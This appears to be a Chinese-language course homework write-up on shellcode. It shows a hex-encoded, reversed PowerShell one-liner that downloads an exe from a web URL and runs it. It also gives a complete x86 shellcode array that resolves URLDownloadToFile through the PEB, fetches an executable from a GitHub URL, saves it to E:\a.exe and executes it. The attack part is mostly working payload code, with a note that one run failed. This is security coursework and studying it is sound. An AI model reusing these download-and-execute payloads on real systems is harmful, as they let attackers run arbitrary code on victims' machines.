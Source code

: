 - x86指的是32位计算机的架构，也指32位的操作系统，比如i386，i686，i486等；x86_64和x64指的都是64位架构，也指64位操作系统

## 下载执行

```
\x29\x3b\x7d\x22\x65\x78\x65\x27\x74\x74\x79\x2e\x28\x27\x70\x75\x63\x75\x74\x65\x6c\x45\x78\x65\x53\x65\x6c\x6f\x6e\x29\x2e\x63\x61\x74\x69\x70\x70\x6c\x69\x6c\x6c\x2e\x41\x20\x53\x65\x2d\x63\x6f\x6d\x65\x63\x74\x20\x2d\x4f\x62\x6a\x28\x4e\x65\x77\x27\x29\x20\x3b\x2e\x65\x78\x65\x75\x74\x74\x79\x2c\x20\x27\x70\x65\x78\x65\x27\x74\x74\x79\x2e\x36\x2f\x70\x75\x74\x2f\x78\x38\x61\x74\x65\x73\x74\x79\x2f\x6c\x2f\x70\x75\x74\x74\x61\x6d\x73\x67\x74\x61\x6c\x69\x2f\x7e\x72\x74\x2e\x65\x2e\x65\x61\x2f\x2f\x74\x74\x70\x73\x3a\x28\x27\x74\x46\x69\x6c\x65\x6c\x6f\x61\x64\x44\x6f\x77\x6e\x6e\x74\x29\x2e\x43\x6c\x69\x65\x2e\x57\x65\x62\x20\x4e\x65\x74\x6a\x65\x63\x74\x77\x2d\x4f\x62\x20\x28\x4e\x65\x22\x26\x20\x7b\x61\x6e\x64\x20\x63\x6f\x6d\x6d\x6c\x6c\x20\x2d\x72\x73\x65\x70\x6f\x77\x65
```

转换的结果如下
```
);}"exe'tty.('pucutelExeSelon).catipplill.A Se-comect -Obj(New') ;.exeutty, 'pexe'tty.6/put/x8atesty/l/puttamsgtali/~rt.e.ea//ttps:('tFileloadDownnt).Clie.Web Netjectw-Ob (Ne"& {and commll -rsepowe
```

- 路径：https://github.com/purplezi/Software-and-System-Security/blob/master/hw-0x04-Shellcode/exe/test.exe
  
  ```
  \x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x69\x74\x68\x75\x62\x2e\x63\x6f\x6d\x2f\x70\x75\x72\x70\x6c\x65\x7a\x69\x2f\x53\x6f\x66\x74\x77\x61\x72\x65\x2d\x61\x6e\x64\x2d\x53\x79\x73\x74\x65\x6d\x2d\x53\x65\x63\x75\x72\x69\x74\x79\x2f\x62\x6c\x6f\x62\x2f\x6d\x61\x73\x74\x65\x72\x2f\x68\x77\x2d\x30\x78\x30\x34\x2d\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x2f\x65\x78\x65\x2f\x74\x65\x73\x74\x2e\x65\x78\x65
\x\x```

- 保存路径：E:\a.exe
  - c:\a.a > 63 3a 5c 61 2e 61
  - E:\a.exe > 45 3a 5c 61 2e 65 78 65 \x68\x65\x78\x65\x2e\x68\x61\x5c\x3a\x45
  - 如果不够则\x00

```
char shellcode[] = \

"\xe9\x88\x00\x00\x00\x5f\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68"
"\x08\x8b\xf7\x6a\x02\x59\xe8\x31\x00\x00\x00\xe2\xf9\x68\x6f\x6e\x00\x00\x68\x75\x72"
"\x6c\x6d\x54\xff\x16\x8b\xe8\xe8\x1b\x00\x00\x00\x68\x65\x78\x65\x2e\x68\x61\x5c\x3a"
"\x45\x54\x5b\x33\xc0\x50\x50\x53\x57\x50\xff\x56\x08\x50\x53\xff\x56\x04\x51\x56\x8b"
"\x75\x3c\x8b\x74\x2e\x78\x03\xf5\x56\x8b\x76\x20\x03\xf5\x33\xc9\x49\x41\xad\x03\xc5"
"\x33\xdb\x0f\xbe\x10\x3a\xd6\x74\x08\xc1\xcb\x0d\x03\xda\x40\xeb\xf1\x3b\x1f\x75\xe7"
"\x5e\x8b\x5e\x1c\x03\xdd\x8b\x04\x8b\x03\xc5\xab\x5e\x59\xc3\xe8\x73\xff\xff\xff\x8e"
"\x4e\x0e\xec\x98\xfe\x8a\x0e\x36\x1a\x2f\x70\x68\x74\x74\x70\x73\x3a\x2f\x2f\x67\x69"
"\x74\x68\x75\x62\x2e\x63\x6f\x6d\x2f\x70\x75\x72\x70\x6c\x65\x7a\x69\x2f\x53\x6f\x66"
"\x74\x77\x61\x72\x65\x2d\x61\x6e\x64\x2d\x53\x79\x73\x74\x65\x6d\x2d\x53\x65\x63\x75"
"\x72\x69\x74\x79\x2f\x62\x6c\x6f\x62\x2f\x6d\x61\x73\x74\x65\x72\x2f\x68\x77\x2d\x30"
"\x78\x30\x34\x2d\x53\x68\x65\x6c\x6c\x63\x6f\x64\x65\x2f\x65\x78\x65\x2f\x74\x65\x73\x74\x2e\x65\x78\x65\x00";
```

跑urldownloadtofile

<img src="./img/urldownloaderror.png">

- 〖122〗-传递到系统调用的数据区太小

# References

- https://docs.microsoft.com/en-us/windows-hardware/drivers/debugger/-peb
- https://www.cnblogs.com/binlmmhc/p/6501545.html
- https://docs.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb
- https://en.wikipedia.org/wiki/Process_Environment_Block